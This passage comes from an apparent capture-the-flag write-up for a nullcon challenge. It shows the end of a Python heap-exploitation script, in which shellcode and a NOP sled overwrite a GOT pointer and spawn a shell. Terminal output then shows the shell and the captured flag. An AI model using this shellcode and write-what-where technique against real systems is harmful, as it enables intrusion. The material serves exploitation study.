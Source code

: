 ```python
                                        time.sleep(0.5)
                                        print "[+] Sending new notes to overwrite got pointer..."
                                        s.send("1\n1\n1\n1\n")  # create two more notes
                                        time.sleep(0.5)
                                        s.recv(1000)

# send new note to overflow pointers
s.send("3\n2\n2\n")
time.sleep(0.5)
s.recv(1000)

time.sleep(0.5)
payload = ""
sc = "\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
# prepend shellcode with a little NOP sled
payload += "\x90"*(212-len(sc))
payload += sc
# overwrite note_info struct
payload += p(0x804b024-8)     # __isoc99_scanf@got.plt-8
payload += p(shellcode)       # heap location of shellcode

payload += "\n"
s.send(payload)

# request deletion of a note, triggering our write-what-where
# we overwrite a function pointer in the got with the location
# of our shellcode
time.sleep(0.5)
s.send("2\n3\n")

time.sleep(0.5)
s.recv(512)

# shell incoming!
print "[+] Enjoy your shell!"

import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()

s.close()
```

```
bas@tritonal:~/tmp/nullcon/exp400$ python sploit.py 
[+] Trying to leaking heap address...
[+] Leaked heap address at 0x85cf1d0
[+] Shellcode at 0x85cf100
[+] Sending new notes to overwrite got pointer...
[+] Enjoy your shell!
id
/bin//sh: 1: id: not found
cat flag.txt
flag{y0u_br0k3_1n70_5h3rl0ck_m1ndp4l4c3}
```

The flag was `flag{y0u_br0k3_1n70_5h3rl0ck_m1ndp4l4c3}`.

